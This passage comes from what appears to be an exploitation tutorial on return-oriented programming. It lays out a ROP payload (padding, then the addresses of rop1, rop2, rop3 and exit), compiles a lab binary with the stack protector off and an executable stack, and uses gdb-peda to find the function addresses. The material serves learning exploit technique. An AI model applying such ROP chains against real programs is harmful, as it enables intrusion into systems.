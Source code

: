 ```text
payload = AAAAs... + BBBB + &rop1 + &rop2 + &rop3 + &exit
```

...or for easier cross-reference - using the same colours as those seen in the above stack layout:

![Payload structure visualized](../../../.gitbook/assets/image%20%28950%29.png)

Let's find out the values we need to populate our payload with. First of, compile our vulnerable program `rop1a`:

```python
gcc -m32 -fno-stack-protector -z execstack rop1a.c -o rop1a
```

Start debugging it with gdb-peda and put a breakpoint on `main()` and continue execution:

```python
gdb rop1a
b main
c
```

Now, let's find out addresses for functions `rop1`, `rop2`, `rop3` and `exit`:

```csharp
gdb-peda$ p rop1
$1 = {<text variable, no debug info>} 0x565561a9 <rop1>

gdb-peda$ p rop2
$2 = {<text variable, no debug info>} 0x565561d4 <rop2>

gdb-peda$ p rop3
$3 = {<text variable, no debug info>} 0x565561ff <rop3>

gdb-peda$ p exit
$4 = {<text variable, no debug info>} 0xf7e02950 <exit>
```
